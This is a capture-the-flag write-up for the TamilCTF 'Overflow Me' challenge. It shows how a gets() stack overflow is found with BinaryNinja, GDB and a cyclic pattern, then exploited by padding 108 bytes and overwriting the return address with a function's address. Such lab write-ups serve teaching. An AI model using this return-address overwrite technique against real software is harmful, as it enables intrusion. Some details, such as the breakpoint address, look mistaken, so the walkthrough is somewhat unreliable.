

# Writeups for Overflow Me
- We need to find the flag in format of TamilCTF{flag}. The Overflow_Me is in the same directory
## Analysis the Overflow Me
- Get some basic information from the overflow me binary, by using some commands.
  - file Overflow_me
 It is 64 bit, x86-64 and not stripped binary.
  - strings Overflow_Me
 Nothing interesting like **flag**.
- Run the overflow me binary
  - ./Overflow_me
 Enter something , I entered **TamilCTF2021**,the output is **Addr is 0x00000000**.

## Run the Overflow Me binary on BinaryNinja
- Open the overflow me binary in [BinaryNinja](https://binary.ninja/demo/)
  - /opt/binaryninja/binaryninja Overflow_Me
 
  - Examine the main function
    - The main function call the **banner** function. Actually the banner function print the some strings. Then get a user input by using gets function **( Gets is dangerous function,there is no limits for the user input, So we overflow the return address )**.  But there is one cmp instruction ,it compare the eax **( the eax is 0)** with 0x33313337 **( It is hexa of 7313 )**.If compare statement is false ,it will **exit** the program by print the **Addr of eax**.  
    
## Find the offset of eax
  - Create a unique pattern
    - pattern create 150 

  - Run the binary with that pattern
    - ./Overflow_Me 

  - Finally find the offset
    - pattern offset 0x41366441 150 The offset is **108**.

## Load the Overflow Me on **GDB**    
  - Open the overflow_me on gdb
    - gdb ./Overflow_me -q
  - List the functions
    - info function There are three function. vuln,banner and main functions
  - Disassembly the main function and set a breakpoint at leave statement
    - disass main 
    - b *0x41366441 
  - Run the binary
    - run the binary with value of **AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA7313BBBBBBBBCCCCCCCC** ( The padding is 108 byte ,comparsion value is 7313 and 8 byte of B and C ).
      - run
    - Hey, Now the breakpoint is hit.
    - List the value in rbp.
      - x/20wx $rbp 
      - The value of 42 **(B)** is stored in rbp adn 43 **(C)** is stored in return address.

## Make a Exploit
  - We need overwrite the vuln function address on return address
  - find the vuln function address
    - objdump -t Overflow_Me | grep vuln 
  - Exploit file
    
    - "A"*108 is stored in padding.
    - "7313" is stored in cmp.
    - "B"*8 is stored in rbp, it is base address in program.
    - struct.pack("Q",0x00000000004011b1) will unpacked vuln function address and stored in ret, it will overwrite the return address in program.
    - Finally this payload is stored in exp file.

## Run the Overflow with exp file
  - run the binary with exp file
    - ./Overflow_Me < exp  
    - Hey ,Finally we got the flag :smiley: 
